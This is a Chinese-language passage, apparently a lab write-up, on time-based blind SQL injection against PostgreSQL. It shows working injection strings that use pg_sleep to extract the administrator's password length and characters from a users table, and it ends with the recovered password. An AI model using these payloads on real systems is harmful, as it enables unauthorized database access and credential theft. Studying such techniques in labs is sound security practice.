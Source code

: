 ### 时间注入

```
# PostgreSQL 语法：
SELECT 
  CASE 
    WHEN 1=1 THEN pg_sleep(1)  -- 延迟1秒
    ELSE 1 
  END;
  
# 常规 mysql 语法：
select if(1=1,sleep(1),1);	
```

如下参数存在注入：

```
rRQEPAJ6heEsyob4'||pg_sleep(10)--
```

进一步尝试是否可以判断：

```
rRQEPAJ6heEsyob4'||(select case when 1=1 then pg_sleep(10) ELSE 1 END) --+

# 有一个语法细节：

# 无效，不会 sleep
abc'||(select case when 1=1 then pg_sleep(10) ELSE 1 END) --+

# 有效，会 sleep
abc'||(select case when 1=1 then pg_sleep(10) ELSE pg_sleep(0) END) --+
```

时间注入爆破密码长度：

```
# 时间盲注管理员密码长度。
abc'||(select case when LENGTH(password)=10 then pg_sleep(5) ELSE pg_sleep(0) END from users where username='administrator') --+

# 如下图 payload = 20 时，sleep 时间大于 5s。 
```

![image-20250521171324279](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/SQL%20%E6%B3%A8%E5%85%A5/images/image-20250521171324279.png)

时间注入爆破密码：

```
# 时间盲注管理员密码
abc'||(select case when substring(password,1,1)='x' then pg_sleep(5) ELSE pg_sleep(0) END from users where username='administrator') --+
```

![image-20250521173743052](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/SQL%20%E6%B3%A8%E5%85%A5/images/image-20250521173743052.png)

结果如下：

![image-20250521173656894](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/SQL%20%E6%B3%A8%E5%85%A5/images/image-20250521173656894.png)

```
x2y3368z8he7tnu2t6uh
```

